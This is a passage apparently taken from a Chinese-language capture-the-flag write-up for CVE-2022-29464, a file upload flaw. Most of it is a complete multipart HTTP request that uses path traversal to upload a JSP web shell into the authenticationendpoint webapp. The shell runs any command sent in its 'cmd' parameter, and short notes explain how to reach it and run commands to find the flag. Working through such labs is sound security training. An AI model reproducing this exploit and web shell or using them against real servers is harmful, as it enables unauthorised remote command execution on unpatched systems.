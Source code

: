 ```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

返回数字即为上穿成功，任何可以通过访问https://ip:port/authenticationendpoint/1.jsp

![](2024-02-13/4.png)

至此成功实现了CVE-2022-29464文件上传漏洞

**4.取得flag**

可以在内输入指令ls查看目录结构
